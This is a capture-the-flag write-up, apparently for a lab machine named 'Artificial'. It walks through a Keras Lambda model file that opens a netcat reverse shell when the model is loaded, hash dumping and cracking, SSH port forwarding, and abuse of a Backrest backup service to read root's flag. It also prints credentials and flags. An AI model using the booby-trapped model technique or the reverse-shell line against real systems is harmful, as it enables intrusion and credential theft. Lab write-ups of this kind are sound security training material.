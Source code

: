 # Attack IP 
10.10.11.74

# Dificulty
Community rating - Easy

# Category
Web-based, AI model tensor upload auth-bypass vulnerbility.

# Method of Solve
Nmap scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
So then we head to the website. We see a login/register page, there is little information on so we look, for exploits for tensor where we find [this](https://blog.huntr.com/exposing-keras-lambda-exploits-in-tensorflow-models)

using this and docker we create an AI-model, using the following syntax

```
import tensorflow as tf
import os

def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc <TARGET_IP> 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
```
sudo docker build -t myapp .
sudo docker run --rm -it -v $(pwd):/cwd myapp
```
then we move the exploit to the docker to create the model using
```
sudo docker cp /path/to/tensorflow_h5.py DOCKER_CONTAINER_ID:/code/tensorflow_h5.py
```
run in the docker to create the model to be exploited. 
```
sudo docker exec -it crazy_moser python /code/tensorflow_h5.py
```
Then we bring it back to our system to store so we can upload to the target website
```
sudo docker cp DOCKER_CONTAINER_ID:/code/exploit.h5 /path/to/store/
```
from there we run 
```
nc -lvnp 4444
```
from there we upload the model, click View Predictions, and head back to our terminal, we then have reverse shell.
then we find the following is available
```
-rw-rw-r-- 1 app app 7846 Jun  9 13:54 app.py                                                                                                              
drwxr-xr-x 2 app app 4096 Aug 12 01:23 instance                                                                                                            
drwxrwxr-x 2 app app 4096 Aug 12 01:23 models                                                                                                              
drwxr-xr-x 2 app app 4096 Jun  9 13:55 __pycache__                                                                                                         
drwxrwxr-x 4 app app 4096 Jun  9 13:57 static                                                                                                              
drwxrwxr-x 2 app app 4096 Jun 18 13:21 templates
```
heading into instance we find users.db
viewing these usernames we can see there is some hashed information attached to the usernames
```
marymary@artificial.htb bf041041e57f1aff3be7ea1abd6129d0
royerroyer@artificial.htb c25b1f80f544c0ab451c02a3dca9fc6
robertrobert@artificial.htb b606c5f5136170f15444251665638b36
markmark@artificial.htb 0f3d8c76530022670f1c6029eed09ccb
gaelgael@artificial.htb c99175974b6e192936d97224638a34f8
```
from there we put them into a hash cracker e.g. https://crackstation.net/
we find that only gael has a password usable being 'mattp005numbertwo'
from there we SSH into the server using the following 
```
ssh gael@10.10.11.74
password: mattp005numbertwo
```
from there we find user.txt and we get our first flag.
```
a34f3a19ef535d740a223d91ff081102
```
then we try for excelation of privlege, we run a http server in the file where linpeas is located.
then from the gaels server we download it using
```
wget http://HOST_IP:8000/linpeas.sh
```
 then 
 ```
 chmod +x linpeas.sh
```
then run it to see ways to increase priv

we notice that there is a few things first one is the active ports
``` 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                                                                          
tcp        0      0 127.0.0.1:9898          0.0.0.0:*               LISTEN      -                                                                          
tcp6       0      0 :::80                   :::*                    LISTEN      -                                                                          
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
We will come back to this soon
and the second one is 
```
-rw-r----- 1 root sysadm 52357120 Mar  4 22:19 /var/backups/backrest_backup.tar.gz
```
this is interesting. we bring it back to our computer using the scp method
```
scp geal@10.10.11.74:/var/backups/backrest_backup.tar.gz /path/to/save
```
then we unzip it and have a look, we see a .config file this is good. look in and find 
```
 "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
```
we put this into a base64 decryption and then using john we get the following 
```
john filename.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```
```
!@#$%^
```
then we use port forwarding on our host machine through ssh to get onto to backup server
```
ssh -L 9898:127.0.0.1:9898 @gael@artificial.htb
```
then we go to our local browers and we go to localhost:9898
then it takes some reading so head [here](https://garethgeorge.github.io/backrest/introduction/getting-started/)
so long and short of it; we log in using backrest_root:!@#$%^
then when we are in the backrest interface we ad a new repo with /tmp repository URI
generate a random password
then go to add plan, do same again but for the path we want it to be root/root.txt
then we click on Backup Now
then click on back up pop-down, scroll down to snapshot browser, '/' 'root' 'root.txt' then click on root.txt and then restore the path.
then do the same again when it does it thing, then boom root flag
2cc9b58679485f25ec0f4d0d877ef141
